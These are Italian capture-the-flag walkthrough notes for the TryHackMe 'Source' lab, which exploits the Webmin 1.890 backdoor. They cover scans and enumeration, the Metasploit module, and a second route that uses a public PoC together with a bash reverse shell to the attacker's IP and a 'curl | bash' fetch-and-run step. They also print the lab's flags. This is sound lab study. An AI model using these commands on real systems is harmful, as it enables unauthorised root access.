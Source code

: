 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/source

```
**Webmin** è un [software](https://it.wikipedia.org/wiki/Software "Software") che permette di gestire un [computer](https://it.wikipedia.org/wiki/Computer "Computer") tramite [interfaccia](https://it.wikipedia.org/wiki/Interfaccia_(informatica) "Interfaccia (informatica)") [web](https://it.wikipedia.org/wiki/Web "Web") (all'indirizzo http://localhost:10000). L'accesso è limitato agli utenti del sistema e permette di gestire la macchina da un punto di vista [hardware](https://it.wikipedia.org/wiki/Hardware "Hardware") e [software.](https://it.wikipedia.org/w/index.php?title=Software.&action=edit&redlink=1 "Software. (la pagina non esiste)") Il sistema è indirizzato ad amministratori e sistemisti, ma può risultare utile anche su computer [client](https://it.wikipedia.org/wiki/Client "Client").

Può gestire svariati aspetti del sistema, inclusi gli eventuali [server]
```

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.239.93 -oG risultatoscan
```

```
sudo nmap -sC -sV -p 22,10000 -Pn 10.10.130.202 -oN risultatoscan2
```

```
http://10.10.239.93:10000/
```
dice che lavora in SSL
```
https://10.10.239.93:10000/
```

==enumerazione indirizzi==
```
gobuster dir -u https://10.10.239.93:10000/ -w /usr/share/wordlists/dirb/common.txt -t50 -k -b "200"
```
	(-k disabilita verifica HTTPS, -b esclude codice di stato)
==enumerare con nmap script==
```
nmap -p 80 --script http-enum 10.10.239.93:10000
```
==enumerare con wfuzz==
```
wfuzz -c -L -t 400 --sc=200,301 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://10.10.239.93:10000/FUZZ
```
==enumerare con dirb==
```
dirb http://10.10.130.202:10000/ /usr/share/wordlists/dirb/common.txt
```
torniamo sul risultato di nmap
webmin_1.890_all.deb
```
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
```

```
searchsploit webmin 1.890
```

```
searchsploit -x linux/webapps/47330.rb
```
	q per uscire

```
msfconsole
```

```
search webmin
```
scegliamo
==10  exploit/linux/http/webmin_backdoor==   

```
info 10
```

```
use 10
```

```
options
```

ora settiamo il remote host
```
set RHOST 10.10.130.202
```
poi settiamo il listening host con il nostro IP Attaccante
```
set LHOST 10.21.9.220
```
	(oppure formato set LHOST tun0)

```
set SSL true
```

```
exploit
```
	(oppure run)

```
whoami
```

```
ls /root
```
root.txt
```
cat /root/root.txt
```

```
THM{UPDATE_YOUR_INSTALL}
```

```
pwd     
```

```
/usr/share/webmin
```

```
ls /home
```
dark
```
ls /home/dark
```
user.txt
```
cat /home/dark/user.txt
```

```
THM{SUPPLY_CHAIN_COMPROMISE}
```
### altra soluzione
https://github.com/n0obit4/Webmin_1.890-POC

```
wget https://github.com/n0obit4/Webmin_1.890-POC/blob/master/Webmin_exploit.py
```

```
python3 Webmin_exploit.py -host 10.10.162.102 -port 10000 -cmd whoami
```
entriamo come root!

facciamo un file di reverse shell da inviare alla macchina vittima
```
nano index.html
```

```
#!/bin/bash
bash -i >& /dev/tcp/10.21.9.220/443 0>&1
```

```
sudo su
```
esponiamo la cartella dove risiede index.html
```
python3 -m http.server 80
```
ci mettiamo in ascolto
```
nc -nlvp 443
```
eseguiamo
```
python3 Webmin_exploit.py -host 10.10.162.102 -port 10000 -cmd 'curl 10.10.162.102 | bash'
```
ed otteniamo la reverse shell!



